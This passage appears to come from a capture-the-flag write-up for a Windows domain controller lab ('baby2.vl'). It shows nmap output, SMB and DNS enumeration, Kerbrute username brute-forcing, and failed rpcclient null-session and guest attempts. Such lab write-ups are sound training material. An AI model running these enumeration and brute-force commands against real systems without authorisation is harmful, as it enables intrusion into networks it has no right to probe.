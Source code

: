 ```bash
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 25 09:05:27 2025 -- 1 IP address (1 host up) scanned in 122.63 seconds
```

As we can see we're probably facing a `DC` (Domain Controller) because all of the simultaneously open ports: `TCP Port 88 (Kerberos)` | `TCP Port 135 (RPC)` | `TCP Port 5985 (WinRM)`...

At the same time let's enumerate the domain using `netexec`&#x20;

```bash
nxc smb 10.129.234.72
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
```

We add the shown domain to our `/etc/hosts` file&#x20;

Let's enumerate `TCP 53 (DNS)` to check **DNS records** as well using `dig`&#x20;

```
dig @10.129.234.72 baby2.vl NS
baby2.vl.		3600	IN	NS	dc.baby2.vl.
```

We see the Fully Qualified Domain Name there also as `dc.baby2.vl` so we add it to our `/etc/hosts` as we did earlier with `baby2.vl`&#x20;

Now let's climb up some *ports* and head to `TCP 88 (Kerberos)` and let's try to brute-force usernames using the `Kerbrute` tool

```bash
kerbrute userenum --dc 10.129.234.72 -d baby2.vl /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 10/25/25 - Ronnie Flathers @ropnop

2025/10/25 10:25:31 >  Using KDC(s):
2025/10/25 10:25:31 >  	10.129.234.72:88

2025/10/25 10:25:33 >  [+] VALID USERNAME:	guest@baby2.vl
2025/10/25 10:25:39 >  [+] VALID USERNAME:	administrator@baby2.vl
2025/10/25 10:25:54 >  [+] VALID USERNAME:	library@baby2.vl
```

Great! we see that guest, administrator & library are available usernames on the `DC`&#x20;

Now it's time to check `TCP 135 (RPC)` using `rpcclient`, if there's success we can see users, groups and so on

```bash
❯ rpcclient -U '' -N baby2.vl
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> ^C
❯ rpcclient -U 'guest' -N baby2.vl
eCannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```
